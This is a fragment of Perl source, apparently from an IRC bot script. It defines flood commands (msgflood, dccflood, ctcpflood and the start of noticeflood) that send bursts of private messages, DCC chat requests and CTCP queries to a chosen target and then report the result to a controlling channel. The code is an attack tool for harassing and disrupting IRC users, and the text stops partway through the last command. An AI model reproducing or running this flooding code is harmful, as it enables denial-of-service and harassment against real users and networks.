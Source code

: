 #-#-#-#-#-#-#-#-# 

# Flooders IRC  # 

#-#-#-#-#-#-#-#-#          

# msg, @msgflood <who> 

if ($funcarg =~ /^msgflood (.+?) (.*)/) { 

   for($i=0; $i<=10; $i+=1){ 

      sendraw($IRC_cur_socket, "PRIVMSG ".$1." ".$2); 

   } 

      sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3MSGFlood12]14 Excecuted on ".$1." "); 

} 

           

# dccflood, @dccflood <who> 

if ($funcarg =~ /^dccflood (.*)/) { 

   for($i=0; $i<=10; $i+=1){ 

      sendraw($IRC_cur_socket, "PRIVMSG ".$1." :\001DCC CHAT chat 1121485131 1024\001\n"); 

   } 

      sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3DCCFlood12]14 Excecuted on ".$1." "); 

}       

# ctcpflood, @ctcpflood <who> 

if ($funcarg =~ /^ctcpflood (.*)/) { 

   for($i=0; $i<=10; $i+=1){ 

      sendraw($IRC_cur_socket, "PRIVMSG ".$1." :\001VERSION\001\n"); 

      sendraw($IRC_cur_socket, "PRIVMSG ".$1." :\001PING\001\n"); 

   } 

      sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3CTCPFlood12]14 Excecuted on ".$1." "); 

}       

# noticeflood, @noticeflood <who> 

   if ($funcarg =~ /^noticeflood (.*)/) { 
